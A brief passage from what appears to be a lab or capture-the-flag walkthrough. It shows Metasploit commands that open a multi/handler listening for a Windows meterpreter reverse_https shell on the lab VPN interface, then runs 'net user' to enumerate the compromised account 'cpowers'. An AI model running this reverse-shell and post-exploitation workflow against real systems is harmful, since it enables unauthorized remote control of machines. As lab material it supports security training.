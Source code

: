 Now let’s go and open a handler

```bash
msfconsole -q
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
set lhost tun0
set exitfunc thread
set exitfunc thread
```

![image.png](../images/trusted%2024.png)

now let’s wait to get a shell

![image.png](../images/trusted%2025.png)

now we go shell as cpowers let’s see his groups

```bash
net user cpowers
```
